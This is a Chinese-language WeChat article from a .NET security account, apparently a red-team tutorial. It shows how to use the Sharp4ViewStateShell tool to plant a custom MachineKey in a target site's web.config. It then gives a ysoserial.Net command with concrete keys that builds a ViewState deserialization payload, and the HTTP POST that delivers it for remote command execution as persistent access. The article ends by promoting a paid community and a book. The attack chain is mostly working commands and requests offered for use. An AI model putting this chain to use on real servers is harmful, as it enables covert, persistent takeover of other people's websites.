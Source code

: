 #  基于反序列化漏洞，通过 Sharp4ViewStateShell 执行命令实现权限维持   
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-06 02:37  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队中持久化访问权限是关键环节之一，Sharp4ViewStateShell.exe  
 是一款专门为.NET Web站点设计的权限维持工具，其核心思想是通过配置自定义的 MachineKey  
，结合 .NET 的 ViewState 反序列化漏洞，实现远程命令执行并维持访问权限。本文将详细讲解该工具的使用方式及其利用链流程，帮助红队人员快速完成权限维持操作。  
  
**01. 工具基本介绍**  
  
  
  
Sharp4ViewStateShell.exe自动修改 .NET 的 web.config  
 文件，插入自定义 MachineKey  
，用于后续利用 ViewState 反序列化漏洞实现远程命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BF2lJnqw4MkzssIx7aW6lKRKSAWNIPCE89uBLKe13qtMlOudCuK3B4g/640?wx_fmt=jpeg&from=appmsg "")  
  
**02. 工具实战用法**  
  
  
  
一键运行 Sharp4ViewStateShell.exe  
 修改目标站点的 web.config，直接运行 Sharp4ViewStateShell.exe，无需任何参数。  
  
```
Sharp4ViewStateShell.exe
```  
  
  
执行后，该工具会自动为站点插入 MachineKey 配置项，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BMgNsvCEVKlCekZKzibBsCdgdIUImBDyJTcc3apzYiaNfwC1I9ibr3EUbw/640?wx_fmt=png&from=appmsg "")  
  
接着，访问目标页面单个 aspx页面  
，使用浏览器开发者工具或 Burp Suite 抓包工具，找到页面源码中类似如下内容：  
  
```
<input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR"value="DBC4925F"/>
```  
  
  
随  
后，使用 ysoserial.Net  
 构造带有命令执行，比如 tasklist 的ViewState负载，命令如下所示。  
  
```
ysoserial.exe -p ViewState -g XamlAssemblyLoadFromFile -c "./ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll;./dlls/Microsoft.AspNet.FriendlyUrls.dll" \--validationalg="SHA1" \--validationkey="28E969418EFBAF7DAF4A05B12A9F588774129BA306ED094A0C9CA70A45F6C4A83512EB9CF050D7261ADA8E57728B830E540BC26394CEF1F43AEC642AD61D894F" \--decryptionalg="AES" \--decryptionkey="F6F6CB3C4FE662991CEF709C5A2ACDDD228FDF21CD708186736FE4B3E008B3A6" \--generator="DBC4925F"
```  
  
  
执行后将输出一个经过Base64编码的 __VIEWSTATE  
 值，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BClUwFFNLPCN5mibotpAQwlGQAbArFNJKdX15MhpIs7icwx4yM6voD9tQ/640?wx_fmt=png&from=appmsg "")  
  
最后，构造如下 POST 请求，并将上一步生成的 ViewState 值粘贴到 __VIEWSTATE  
 参数中：  
  
```
POST /ViewState.aspx HTTP/1.1Host:localhostPragma: no-cacheCache-Control: no-cacheUser-Agent: Mozilla/5.0(Windows NT 10.0; Win64; x64) Chrome/137.0.0.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,;q=0.8Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length:9337form1_r=0.7834879954225045&form1_t=1734416003580&form1_d=1734416071170&form1_e=2&__VIEWSTATE=【此处粘贴生成的ViewState】
```  
  
  
将该请求发送到 ViewState.aspx  
 页面，成功后页面响应可能包含命令执行结果，tasklist 命令已被成功执行，实现远程RCE，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BOmEmqm5jdrG254MekDD64q4hcTEicYXcceoC7eSYASibayhTHTxaWwBQ/640?wx_fmt=png&from=appmsg "")  
  
综上，Sharp4ViewStateShell.exe  
 利用了 .NET 的 ViewState 反序列化机制配合自定义 MachineKey，实现持久化远程命令执行，非常适合在红队渗透中用于权限维持。  
文章涉及的工  
具已  
打包在星球，感兴趣的朋友可以加入自取。  
  
**03.NET安全扩展学习**  
  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**04. 技术精华内容**  
  
  
  
从漏洞分析到安全攻防，我们涵盖了 .NET 安全各个关键方面，为您呈现最新、最全面的 .NET 安全知识，下面是公众号发布的精华文章集合，推荐大伙阅读！  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499267&idx=2&sn=1462cf23c9a8568cc80705d2d3a1a69e&scene=21#wechat_redirect)  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8A7Qhn1ssuqNzv0iceS7ZhOuZ0AO4P1eFeG2xTdR2V6GWibiaxO2RenUJzrwOfvsdqofibI6H2uY0CLQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247493952&idx=4&sn=db68011fb075c1d02268811163646b53&chksm=fa5947adcd2ecebbb1ca6659f289a5e344e37d1136fe0bd9272b5578e4c71bb19bb250e934d3&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247495167&idx=1&sn=9280c55fdc7c9146e549be470cf9f120&chksm=fa594312cd2eca04bfe8fd1fd3890b389d9c700b9b69d897f919addac399bab4f4d2e55f6b4f&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490722&idx=2&sn=c9807daa5548e139a0c67303cb26882a&chksm=fa5ab24fcd2d3b59a85be03e69c655ffd644e8458bc2ec3f572da4b40b43e5003fda756f35b4&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490703&idx=2&sn=e7db1ff662e5b41d9a1806fbdf33e204&chksm=fa5ab262cd2d3b7470f029b9a07d1dd3611e63be910b01a601144efe7d84b5f016f488a354cf&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490700&idx=2&sn=e8a865ada7c743e77fb9e953c5da74b1&chksm=fa5ab261cd2d3b7736387eddfc8524a378a1604552d0c9b55476646f9e8275f48818aab8acad&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488736&idx=2&sn=d24aaa297c51eb620ccdf67af513086d&chksm=fa5aba0dcd2d331bbb22f3f5657199d718c90efed42fcb9cb67ec23d342f887c117e4858f1cb&scene=21#wechat_redirect)  
  
  
**05. 加入安全社区**  
  
  
  
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最专业的技术知识库之一，超 **1200+**  
 成员一起互动学习。星球主题数量近 **600+**  
，精华主题   
230+  
，PDF文档和压缩包   
300+   
。从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的实战指南和最佳实践。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9AiaXibTRdEnEfYuQx76FjZVjmyEWtIaDuDePFFmyRqggiaq2k47pLoib9GZtUCOhaP40WPlhvbiaKZVg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 20+专栏文章  
  
星球文化始终认为授人以鱼不如授人以渔！星球整理出**20+**  
个专题栏目涵盖 **.NET安全 点、线、面、体等知识范围**  
，助力师傅们实战攻防！其中主题包括.NET  内网攻防、漏洞分析、内存马、代码审计、预编译、反序列化、WebShell免杀、命令执行、工具库等等。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa90SJRuwnLy9uZV4icrXiaZlJPQlYJWXTw8HCrF9oTcE3DDgrdFnXo2BA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 海量资源和工具  
  
截至当前，dot.Net安全矩阵星球社区汇聚了   
**600+**  
 个实用工具和高质量PDF学习资料。这些资源涵盖了攻防对抗的各个方面，在实战中能够发挥显著作用，为对抗突破提供强有力的支持。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaqVZW8XsALVA4FNiaj32q8npN82VSeqSKb4fQvLiczFNs0099VRFVQwPA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa63ZXbX3YXLwoeNnjStcRtTbU9hoe6ecO5hhkj2apG1I6tKlkpz5GaQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
## 专属成员交流群  
  
我们还有多个成员专属的  
**内部星球陪伴群**  
，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaAiaouHb6HYza539m9v0ykDoD2JezaArDZBPlJInuabf6XsduzVcjZ0Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
## 已入驻的大咖们  
  
星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多  
**高质量的.NET安全资源**  
，可以说市面上很少见，都是干货。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibEkb2HkMVuw4d7qjcTYUtl04w8xDiaUaJxticro644uWw5XuJ6ZXCNXCticjYWjpXNmp3omQHUNFRPg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
## 欢迎加入我们  
  
dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
**星球门票后期价格随着内容和质量的不断沉淀会适当提高，因此越早加入越好！**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopag09JtYcKpucjZPAlfeqC1ovcQvhrkemAzbURDaVF3InmpQshiatDnyQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
